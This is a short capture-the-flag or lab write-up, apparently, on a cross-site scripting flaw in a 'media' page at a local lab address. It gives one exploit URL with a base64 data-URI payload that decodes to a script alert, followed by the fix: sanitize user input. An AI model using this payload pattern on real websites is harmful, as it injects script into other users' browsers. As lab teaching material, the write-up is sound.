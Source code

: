 # [Injection XSS](https://owasp.org/www-community/attacks/xss/)

## Exploit

http://10.0.2.5/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

## Solution

Sanitize user input.
